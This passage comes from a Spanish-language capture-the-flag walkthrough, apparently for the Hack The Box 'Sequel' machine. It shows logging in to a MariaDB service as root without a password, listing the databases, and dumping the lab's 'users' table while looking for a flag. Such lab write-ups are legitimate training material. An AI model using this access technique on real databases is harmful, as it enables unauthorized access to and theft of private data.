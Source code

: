 ```
```

Como se puede ver, consigo conectarme al servicio MySQL utilizando el usuario "root" y sin proporcionar contraseña. Una vez dentro, listo las bases de datos y veo que existe una base de datos "htb", además de las 3 por defecto: "information_schema", "mysql" y "performance_schema". Por tanto, indico que quiero utilizar la base de datos "htb" con el comando `use` y, con `show tables`, obtengo las tablas que componen la base de datos: "config" y "users".

```
MariaDB [(none)]> show databases;
+--------------------+                                  
| Database           |                                  
+--------------------+                                  
| htb                |                                  
| information_schema |                                  
| mysql              |                                  
| performance_schema |                                  
+--------------------+                                  
4 rows in set (0.061 sec)

MariaDB [(none)]> use htb
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed                                              
MariaDB [htb]> show tables;                                   
+---------------+                                       
| Tables_in_htb |                                       
+---------------+                                       
| config        |
| users         |                                   
+---------------+
2 rows in set (0.054 sec)
```

Mediante el comando `describe` listo las columnas que componen cada tabla y el tipo de valor que contienen. Además, con `select *` obtengo todos los registros que componen las tablas, encontrandome el valor de la flag en la tabla "config".

```
MariaDB [htb]> describe users;
+----------+---------------------+------+-----+---------+----------------+
| Field    | Type                | Null | Key | Default | Extra          |
+----------+---------------------+------+-----+---------+----------------+
| id       | bigint(20) unsigned | NO   | PRI | NULL    | auto_increment |
| username | text                | YES  |     | NULL    |                |
| email    | text                | YES  |     | NULL    |                |
+----------+---------------------+------+-----+---------+----------------+
3 rows in set (0.060 sec)

MariaDB [htb]> select * from users;
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0.063 sec)



MariaDB [htb]> describe config;
+-------+---------------------+------+-----+---------+----------------+
| Field | Type                | Null | Key | Default | Extra          |
```